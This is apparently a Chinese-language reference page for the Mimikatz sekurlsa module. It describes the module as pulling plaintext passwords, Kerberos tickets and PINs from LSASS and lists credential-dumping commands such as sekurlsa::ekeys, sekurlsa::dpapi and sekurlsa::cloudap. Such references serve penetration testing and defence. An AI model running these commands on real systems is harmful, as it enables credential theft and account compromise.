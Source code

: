 # sekurlsa模块
这个模块可能是Mimikatz用户中使用最多的模块。它从LSA的子系统服务(LSASS)中检索明文密码、kerberos票、pin码等

## backupkeys

列出备份秘钥
```
mimikatz # sekurlsa::backupkeys
```

## bootkey
设置SecureKernel Boot Key并尝试解密LSA Isolated凭证
```
mimikatz # sekurlsa::bootkey
```

## cloudap
列出 Azure (Primary Refresh Token) 凭据

```
mimikatz # sekurlsa::cloudap
```

## credman
通过针对微软本地安全授权服务器DLL（lsasrv.dll）列出凭证管理器。

```
mimikatz # sekurlsa::credman
```

## dpapi
列出DPAPI缓存的masterkeys

```
mimikatz # sekurlsa::dpapi
```

## dpapisystem

列出DPAPI_SYSTEM secret key

```
mimikatz # sekurlsa::dpapisystem
```

## ekeys

列出Kerberos加密密钥
```
mimikatz # sekurlsa::ekeys
```
